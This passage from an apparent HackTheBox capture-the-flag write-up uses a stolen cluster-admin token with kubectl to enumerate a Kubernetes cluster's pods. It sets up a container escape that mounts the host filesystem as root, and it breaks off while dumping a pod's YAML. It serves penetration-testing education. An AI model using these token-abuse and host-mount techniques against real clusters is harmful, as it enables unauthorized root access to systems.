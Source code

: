 
The first line says that this user can do all commands on all resources - full
admin.

For example (and use in a minute), I can list pods across all namespaces:

    
    
    oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    NAMESPACE     NAME                                  READY   STATUS             RESTARTS   AGE
    default       webapp-deployment-5d764566f4-h5zhw    1/1     Running            7          52d
    default       webapp-deployment-5d764566f4-lrpt9    1/1     Running            7          52d
    default       webapp-deployment-5d764566f4-mbprj    1/1     Running            7          52d
    dev           devnode-deployment-cd86fb5c-6ms8d     1/1     Running            28         81d
    dev           devnode-deployment-cd86fb5c-mvrfz     1/1     Running            29         81d
    dev           devnode-deployment-cd86fb5c-qlxww     1/1     Running            29         81d
    kube-system   backup-pod                            0/1     CrashLoopBackOff   347        80d
    kube-system   coredns-74ff55c5b-sclll               1/1     Running            31         81d
    kube-system   etcd-unobtainium                      1/1     Running            0          23h
    kube-system   kube-apiserver-unobtainium            1/1     Running            0          23h
    kube-system   kube-controller-manager-unobtainium   1/1     Running            34         81d
    kube-system   kube-proxy-zqp45                      1/1     Running            31         81d
    kube-system   kube-scheduler-unobtainium            1/1     Running            31         81d
    kube-system   storage-provisioner                   1/1     Running            63         81d
    

### Filesystem as root

#### Find Image

As with previous docker attacks, the idea is to create a new container and map
the host filesystem into the container, where I will be root. That is
basically root access to the host filesystem. The YAML files described in the
articles all involve pulling docker images from the internet. Because
Unobtainium won’t have internet access, I’ll opt to work from an image that’s
already on the host.

I can get the full YAML for a pod with `get pod [name] -n [namespace]`:

    
    
    oxdf@parrot$ kubectl get pod webapp-deployment-5d764566f4-h5zhw -o yaml --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    apiVersion: v1
    kind: Pod              
    metadata:                                     
      creationTimestamp: "2021-02-15T18:15:14Z"
      generateName: webapp-deployment-5d764566f4-
      labels:              
        app: webapp                               
        pod-template-hash: 5d764566f4
      name: webapp-deployment-5d764566f4-h5zhw
      namespace: default   
      ownerReferences:                            
      - apiVersion: apps/v1
        blockOwnerDeletion: true
        controller: true   
        kind: ReplicaSet                          
        name: webapp-deployment-5d764566f4
        uid: 3cb2f003-ad0a-4b62-8678-ef8a552554c6
      resourceVersion: "19306"
      uid: 2b7cd0d1-d2a3-4057-a797-c1b1317a9ee9
    spec:                        
      containers:
      - image: localhost:5000/node_server
        imagePullPolicy: Always
        name: webapp